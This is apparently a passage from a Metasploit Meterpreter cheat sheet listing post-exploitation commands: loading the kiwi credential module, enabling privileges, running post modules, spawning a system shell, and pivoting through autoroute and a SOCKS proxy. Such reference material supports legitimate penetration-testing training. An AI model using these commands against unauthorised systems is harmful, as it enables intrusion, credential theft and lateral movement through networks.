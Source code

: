 ### **`load kiwi`**

</aside>

<aside>
🛡️ **Attempt to enable all privileges available to the current process**

### **`getprivs`**

</aside>

<aside>
🛡️ **Executes a meterpreter script or Post module**

### **`run /path/to/script`**

</aside>

<aside>
🛡️ **Check if the target is a Virtual Machine**

### **`run post/windows/gather/checkvm`**

</aside>

<aside>
🛡️ **Drop into a system command shell (use the system shell like CMD)**

### **`shell`**

</aside>

---

## **Pivoting**

<aside>
🛡️ **add a new route**

### **`meterpreter> run autoroute -h`**

### **`meterpreter> run autoroute -s IPaddress/24` or use `-s IP -N mask`**

</aside>

<aside>
🛡️ **Setup Socks Proxy**

- **SockS Proxy: Socket Secure Proxy**

### **`run auxiliary/server/socks5`**

- **edit /etc/proxychains.config and include the new server**
